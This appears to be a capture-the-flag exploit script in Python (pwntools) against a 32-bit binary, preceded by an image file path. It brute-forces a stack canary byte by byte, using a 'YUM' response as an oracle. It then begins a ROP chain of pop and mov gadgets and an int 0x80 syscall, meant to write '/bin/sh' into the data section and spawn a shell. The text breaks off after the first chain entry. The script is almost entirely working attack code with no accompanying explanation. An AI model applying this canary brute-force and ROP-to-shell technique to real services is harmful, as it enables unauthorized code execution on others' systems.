 ```python
# RELRO:    No RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

io = start()


def bruteforce_canary(io = io):
    canary = [b'\x00']
    input_len = 0x22
    while len(canary) != 4:
        for byte in range(256):
            io.send(input_len.to_bytes(1,'little'))
            
            payload = b'A'*0x20
            for b in canary:
                payload += b
            payload += byte.to_bytes(1,'little')
            io.send(payload)

            response = io.recvuntil(b'exit.')

            if(b'YUM' in response):
                log.success("found byte: " + hex(byte))
                canary.append(byte.to_bytes(1,'little'))
                input_len += 1
                break
    _ = b''
    for b in canary:
        _ += b 
    canary = int.from_bytes(_,'little') 
    return canary

canary = bruteforce_canary()
log.success(hex(canary))

# now we do the actual exploit

# execve expects the following
# eax = 11 (execve syscall number)
# ebx = ptr to filename (we will write /bin/sh to 0x80e9000)
# ecx = 0
# edx = 0

write_addr = 0x80e9000 # beginning of data section
binsh1 = int.from_bytes(b'/bin','little') #registers only fit 4 chars

binsh2 = int.from_bytes(b'/sh','little')

pop_eax = 0x080bb496 # pop eax; ret;
pop_edx = 0x0806f34a # pop edx; ret;
pop_ecx_ebx = 0x0806f371 # pop ecx; pop ebx; ret;
mov_dword_edx_eax = 0x0809a7ed # mov dword ptr [edx], eax; ret;
syscall = 0x08049761 # int 0x80;

#craft payload 
payload = 0x20*b'A' #pad until canary
payload += p32(canary)
payload += 0xc*b'B' #pad until return addr

#ropchain
payload += p32(pop_eax) + p32(binsh1) #load /bin to eax
```